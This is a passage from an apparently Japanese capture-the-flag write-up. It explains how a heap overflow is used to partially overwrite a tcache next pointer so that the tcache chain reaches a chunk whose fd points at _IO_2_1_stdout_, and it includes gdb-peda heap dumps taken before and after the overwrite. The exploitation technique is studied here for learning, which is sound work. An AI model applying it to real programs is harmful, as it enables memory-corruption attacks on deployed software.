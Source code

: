 さて、今回の問題は特に量に制限が無いHeap Overflowが存在した。よってUnsorted Binに放り込んだチャンク(チャンクAとする)の真上のチャンク(チャンクBとする)を再確保する際にチャンクAのfdを書き換えることが出来る。
こうして先程の要領で下位バイトを書き換え、Unsorted Binのfdに`_IO_2_1_stdout_`を出現させることができた。

### tcacheに繋ぐ

問題はUnsorted Binのfdに繋いだところでUnsorted Binは双方向リストなのでここから取ろうとするとfd, bkのチェックが走り"あ?fdのチャンクはお前をbkに指定してねえよ"と言われてabortする。そういうわけでチェックが緩いtcacheにこのチャンクを出現させる事を狙う。
これは単純にHeap Overflowで既にtcacheに存在するエントリーのnextをUnsorted Binに入っているチャンクへ向ければ良く、tcacheに放り込まれているチャンク群の内、最下位バイトだけがUnsorted Binにあるチャンクと違うものを選択して上書きする。
下の図はUnsorted Binにチャンクが入った直後のHeap領域の様子である。

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x7fffc74f1000      0x0                 0x250                Used                None              None
0x7fffc74f1250      0x0                 0xa0                 Freed     0x7fffc74f1300              None
0x7fffc74f12f0      0x0                 0xa0                 Freed     0x7fffc74f14e0              None
0x7fffc74f1390      0x0                 0xa0                 Freed     0x7fffc74f1260              None
0x7fffc74f1430      0x0                 0xa0                 Freed     0x7f17b23ebca0    0x7f17b23ebca0
0x7fffc74f14d0      0xa0                0xa0                 Freed     0x7fffc74f1580              None
0x7fffc74f1570      0x0                 0xa0                 Freed     0x7fffc74f1620              None
0x7fffc74f1610      0x0                 0xa0                 Freed     0x7fffc74f16c0              None
0x7fffc74f16b0      0x0                 0xa0                 Freed                0x0              None
gdb-peda$ 
```

先に断っておくとこのコマンドのアドレスとtcacheのnextに入るアドレスは0x10違っている。よって`addr`が`x`であるチャンクがtcache中にある時、リンクリスト中で前のチャンクはnextが`x+0x10`を指している(実際、fdとaddrを照合していくと分かると思う)。
また、一番上にあるチャンクは`tcache_perthread_struct`なので特に関係ない

0x7fffc74f1430にあるチャンク(インデックスで3)がUnsorted Binに存在する(fd, bkが他と明らかに違うので)。
ここで0x7fffc74f12f0にあるチャンク(インデックスで1)のnextが0x7fffc74f14e0であることに注目するとここの最下位バイトを`\x40`に書き換えることでnextがインデックス3のチャンクを指すことになる。
この書き換えを行った後の様子が次のとおりである。

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x7fffcf16a750 (size : 0x208b0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x7fffcf16a430 (doubly linked list corruption 0x7fffcf16a430 != 0x7f2c98dec7e3 and 0x7f2c98dec760 or 0x7fffcf16a430 is broken)
(0xa0)   tcache_entry[8](5): 0x7fffcf16a300 --> 0x7fffcf16a440 --> 0x7f2c98dec760 --> 0xfbad2887 (invaild memory)
gdb-peda$ p stdout
$2 = (struct _IO_FILE *) 0x7f2c98dec760 <_IO_2_1_stdout_>
```